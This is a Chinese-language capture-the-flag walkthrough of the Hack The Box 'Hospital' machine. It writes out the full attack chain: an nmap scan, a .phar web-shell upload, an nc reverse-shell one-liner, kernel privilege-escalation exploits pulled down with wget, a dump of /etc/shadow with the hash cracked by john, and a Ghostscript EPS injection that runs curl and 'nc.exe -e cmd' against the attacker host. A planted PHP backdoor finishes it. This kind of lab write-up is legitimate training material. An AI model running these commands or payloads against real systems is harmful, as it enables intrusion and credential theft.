


## Hospital

使用nmap进行端口扫描

```
nmap -sV -sC -v -oN Hospital.log 10.10.11.241
```

```
# Nmap 7.93 scan initiated Sun Dec 10 21:31:47 2023 as: nmap -sV -sC -v -oN Hospital.log 10.10.11.241
Increasing send delay for 10.10.11.241 from 0 to 5 due to 11 out of 21 dropped probes since last increase.
Nmap scan report for 10.10.11.241
Host is up (0.42s latency).
Not shown: 980 filtered tcp ports (no-response)
PORT     STATE SERVICE           VERSION
22/tcp   open  ssh               OpenSSH 9.0p1 Ubuntu 1ubuntu8.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 e14b4b3a6d18666939f7aa74b3160aaa (ECDSA)
|_  256 96c1dcd8972095e7015f20a24361cbca (ED25519)
53/tcp   open  domain            Simple DNS Plus
88/tcp   open  kerberos-sec      Microsoft Windows Kerberos (server time: 2023-12-10 20:35:31Z)
135/tcp  open  msrpc             Microsoft Windows RPC
139/tcp  open  netbios-ssn       Microsoft Windows netbios-ssn
389/tcp  open  ldap              Microsoft Windows Active Directory LDAP (Domain: hospital.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC
| Subject Alternative Name: DNS:DC, DNS:DC.hospital.htb
| Issuer: commonName=DC
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-09-06T10:49:03
| Not valid after:  2028-09-06T10:49:03
| MD5:   04b1adfe746a788e36c0802abdf33119
|_SHA-1: 17e58592278f4e8f8ce1554c35509c02282591e3
443/tcp  open  ssl/http          Apache httpd 2.4.56 ((Win64) OpenSSL/1.1.1t PHP/8.0.28)
|_http-title: Hospital Webmail :: Welcome to Hospital Webmail
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.0.28
| ssl-cert: Subject: commonName=localhost
| Issuer: commonName=localhost
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2009-11-10T23:48:47
| Not valid after:  2019-11-08T23:48:47
| MD5:   a0a44cc99e84b26f9e639f9ed229dee0
|_SHA-1: b0238c547a905bfa119c4e8baccaeacf36491ff6
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: 924A68D347C80D0E502157E83812BB23
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ldapssl?
| ssl-cert: Subject: commonName=DC
| Subject Alternative Name: DNS:DC, DNS:DC.hospital.htb
| Issuer: commonName=DC
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-09-06T10:49:03
| Not valid after:  2028-09-06T10:49:03
| MD5:   04b1adfe746a788e36c0802abdf33119
|_SHA-1: 17e58592278f4e8f8ce1554c35509c02282591e3
1801/tcp open  msmq?
2103/tcp open  msrpc             Microsoft Windows RPC
2105/tcp open  msrpc             Microsoft Windows RPC
2107/tcp open  msrpc             Microsoft Windows RPC
2179/tcp open  vmrdp?
3268/tcp open  ldap              Microsoft Windows Active Directory LDAP (Domain: hospital.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC
| Subject Alternative Name: DNS:DC, DNS:DC.hospital.htb
| Issuer: commonName=DC
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-09-06T10:49:03
| Not valid after:  2028-09-06T10:49:03
| MD5:   04b1adfe746a788e36c0802abdf33119
|_SHA-1: 17e58592278f4e8f8ce1554c35509c02282591e3
3269/tcp open  globalcatLDAPssl?
| ssl-cert: Subject: commonName=DC
| Subject Alternative Name: DNS:DC, DNS:DC.hospital.htb
| Issuer: commonName=DC
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-09-06T10:49:03
| Not valid after:  2028-09-06T10:49:03
| MD5:   04b1adfe746a788e36c0802abdf33119
|_SHA-1: 17e58592278f4e8f8ce1554c35509c02282591e3
3389/tcp open  ms-wbt-server     Microsoft Terminal Services
| ssl-cert: Subject: commonName=DC.hospital.htb
| Issuer: commonName=DC.hospital.htb
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-09-05T18:39:34
| Not valid after:  2024-03-06T18:39:34
| MD5:   0c8aebc23231590c2351ebbf4e1d1dbc
|_SHA-1: af104fad1b02073ae026eef48917734bf8e386a7
| rdp-ntlm-info: 
|   Target_Name: HOSPITAL
|   NetBIOS_Domain_Name: HOSPITAL
|   NetBIOS_Computer_Name: DC
|   DNS_Domain_Name: hospital.htb
|   DNS_Computer_Name: DC.hospital.htb
|   DNS_Tree_Name: hospital.htb
|   Product_Version: 10.0.17763
|_  System_Time: 2023-12-10T20:37:00+00:00
8080/tcp open  http              Apache httpd 2.4.55 ((Ubuntu))
|_http-server-header: Apache/2.4.55 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-open-proxy: Proxy might be redirecting requests
| http-title: Login
|_Requested resource was login.php
Service Info: Host: DC; OSs: Linux, Windows; CPE: cpe:/o:linux:linux_kernel, cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-12-10T20:37:00
|_  start_date: N/A
|_clock-skew: mean: 6h59m59s, deviation: 0s, median: 6h59m58s
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Dec 10 21:37:46 2023 -- 1 IP address (1 host up) scanned in 358.41 seconds

```

 登录到8080WEB端口，注册一个用户进入发现一个文件上传点


```
git clone https://github.com/flozz/p0wny-shell.git
```

上传漏洞改后缀爆破

后缀名在seclist中有

```
/usr/share/seclists/Discovery/Web-Content/web-extensions-big.txt
```

爆破发现phar后缀返回成功


访问http://10.10.11.241:8080/uploads/shell.phar网站


反弹shell

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.65 5566  >/tmp/f
```

查看内核版本

```
uname -a
cat /proc/version
ubuntu 5.19
```


使用g.cn搜索

```
ubuntu 5.19.0 exploit
```


**[CVE-2023-35001](https://github.com/synacktiv/CVE-2023-35001)**

下载编译好exp，需要有C和GO语言环境

```
git glone https://github.com/synacktiv/CVE-2023-35001.git
cd CVE-2023-35001
make
./exploit
```

生成了一个lpe.zip文件

在攻击机使用python临时开启http服务

```
python -m http.server 5566
```

在靶机上使用wget下载文件并赋予权限执行

```
wget http://10.10.16.16:5566/wrapper
wget http://10.10.16.16:5566/exploit
chmod +x wrapper
chmod +x exploit
./exploit
```

成功提权到root权限


**[CVE-2023-2640-CVE-2023-32629](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629)**

第二种提权方法，但是我失败了，有些wp成功了。

```
git clone https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629.git
cd CVE-2023-2640-CVE-2023-32629
python -m http.server 4455
```


查看shadow文件

```
cat /etc/shadow

drwilliams:$6$uWBSeTcoXXTBRkiL$S9ipksJfiZuO4bFI6I9w/iItu5.Ohoz3dABeF6QWumGBspUW378P1tlwak7NqzouoRTbrz6Ag0qcyGQxW192y/
```


复制到hash文件中，并用john进行爆破

```
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

爆破出密码为：qwe123!@#    drwilliams



使用ssh登录上drwillams用户

```
ssh drwilliams@10.10.11.241
```

但是上面没有任何可用信息

使用用户密码登录443端口


登录后发现一个邮件说发一个以eps为后缀的文件


**[
CVE-2023-36664-Ghostscript-command-injection](https://github.com/jakabakos/CVE-2023-36664-Ghostscript-command-injection)**

```
git clone https://github.com/jakabakos/CVE-2023-36664-Ghostscript-command-injection.git
cd CVE-2023-36664-Ghostscript-command-injection
python3 CVE_2023_36664_exploit.py --inject --payload "curl 10.10.16.16:8000/nc64.exe -o nc.exe" --filename file.eps
```


使用python开启临时http服务

```
python -m http.server 4455
```


把payload写入eps文件

```
python CVE_2023_36664_exploit.py --inject --payload "curl 10.10.16.16:4455/nc.exe -o nc.exe" --filename  file.eps
```

把文件发给对方，记录到已经下好nc.exe


攻击机启动nc监听5566端口

``` 
nc -lvvnp 5566
```

把payload写入eps文件并发送

```
python CVE_2023_36664_exploit.py --inject --payload "nc.exe -e cmd 10.10.16.16 5566 cmd.exe" --filename file.eps
```

查看到user的flag

```
03c957e95d2e5b89e69152f251b5886f
```


在这个脚本文件看到一个密码

chr!$br0wn


使用systeminfo，发现没权限，那就没办法用系统提权


在c盘看见一个xammp的文件----XAMPP（Apache+MySQL+PHP+PERL）是一个功能强大的建站集成软件包

所以我们可以知道开启了web服务器


进入xampp发现一个htdocs


查看htdocs权限，发现有system权限，文件夹是system权限的，那么webshell拿到的也应该是system的，上传个web后门进行提权。

```
icacls htdocs
```


临时开启http服务，使用curl命令传输文件

```
curl http://10.10.16.16:4455/shell.php -o 1.php
```



访问网站进入web后门拿到administrator权限，拿到root flag：

```
77ff2c46fb0328661aab55841d2c2e01
```


